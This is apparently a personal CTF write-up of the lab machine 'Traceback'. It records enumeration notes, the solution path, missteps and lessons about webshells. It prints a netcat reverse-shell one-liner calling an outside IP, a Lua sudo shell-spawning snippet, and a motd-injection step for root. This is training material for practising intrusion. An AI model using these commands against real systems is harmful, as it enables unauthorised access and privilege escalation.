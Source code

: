# <span style="color:#FFFF66">Machine #17 Traceback</span>  


## <span style="color: #FFFF66">Notes During Working on the Machine 🧐🤓   

* Wappalyzer is giving way off results  
<img src="wappalyzer.png"> 
* The fast nmap gave me only `http` and `ssh`.
* The long nmap doesn't want to ever finish.
* If I could tell what technology was used to program the backend maybe this could help with finding the proper shell.
* But still it's not clear to me how to find the shell and what the hell is it's name and what is this weird comment about web shells.
* Also, something interesting is that the comment said "web shells" as a plural and not singular.
* It occured to me that Traceback is a kind of error. It seems like it's an error in Python.
* One of the allowed methods is POST this has to give me access to something.
* I also found a code that uses POST requests to use a webshell.
* I found this json object that seems to be sent with the request.
 
  ```json
  {
    "canary":"m069z1wh",
    "enabled":false,
    "postmessage":false,
    "spoofOrigin":false,
    "injectCanary":false,
    "filterStack":false,
    "fireEvents":false,
    "guessStrings":false,
    "preventRedirection":false,
    "injectIntoSources":false,
    "disabledSources":[]
    }
  ```  

* From my research the Canary thing might be a honey pot, which leads me to think that the website isn't really compromised and that the website's owners have put this message to lure hackers into thinking that the website is owned.  

* The Canary thing turned out to be something from burpsuite shit when I opened firefox there was no trace of it. I've been chasing ghosts all along.  
* Maybe I can look more into uploading files.

* The latest stuff I found is an image. I thought maybe the web shell could be hidden in the image but the image seems to be intact and there's nothing wrong with it. It seems like it's just a normal jpg.
* I even ran it on `exiftool` and didn't get anything.  
* I found something `/smevk.php`. Instead of bruteforcing with `gobuster1 using the usual wordlists I used a list called "backdoor_list.txt" which is specifically to search for backdoors in web apps and I found one DAMN RIGHT!
* The password is freaking admin:admin :o

  ```cmd
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
  ```  

* I got webadmin through the other hacker's webshell and then I got sysadmin through a bind shell using the sudo lua code I used the following code  

* I just have getting the root left.
  ```lua
  #\!/usr/local/bin/lua
  os.execute("/bin/bash");
  ```

  ```
  /etc/update-motd.d/50-motd-news
  /etc/update-motd.d/10-help-text
  /etc/update-motd.d/91-release-upgrade
  /etc/update-motd.d/00-header
  /etc/update-motd.d/80-esm
  ```  

  ```cmd
  ssh -i id_ed25519 sysadmin@10.10.14.8
  ```

* I finally copied a rev shell into the "header" file because it was the only file that had proof that it's code is being executed.
<br/><br/>



## <span style="color: #FFFF66">How Did I Solve the Machine 😎🥳 

1. I bruteforced the directories with gobuster until I found a webshell called `smevk.php`.
2. On my first try I used admin/admin credentials and they worked.
3. I uploaded a php reverse shell and visited to execute the code.
4. I got in with `webshell` privilege.
5. I escalated my privilege to `sysadmin` by spawning a bash shell in a Lua code that could be executed with `sudo` privilege to sysadmin.
6. Then as `sysadmin` I injected a code in the motd header and got a root shell that way.

<br/><br/>



## <span style="color: #FFFF66">Where I Got Stuck?😡😧  

* I kept using the wrong wordlist to bruteforce the directories using `gobuster`.
* Turns out there is a wordlist in SecLists exactly to look for web shells and I found some login page hidden by the hacker.

<br/><br/>



## <span style="color: #FFFF66">What Did I learn from this Machine?👀  

* General info on Webshells  
  <blockquote>
  Threat actors first penetrate a system or network and then install a web shell. From this point onwards, they use it as a permanent backdoor into the targeted web applications and any connected systems.
  </blockquote>

<br/><br/>



## <span style="color: #FFFF66">Writeups ✍🏽📓   

### ippsec  
* There are other backdoor wordlists to use in SecList's `Web-Content` called "CommonBackdoors".
* The comment turned out to be a line from a github that has a bunch of webshells(Some of the best webshells...etc).

<br/><br/>




<!-- @nested-tags:machines/brute_force/Traceback-->
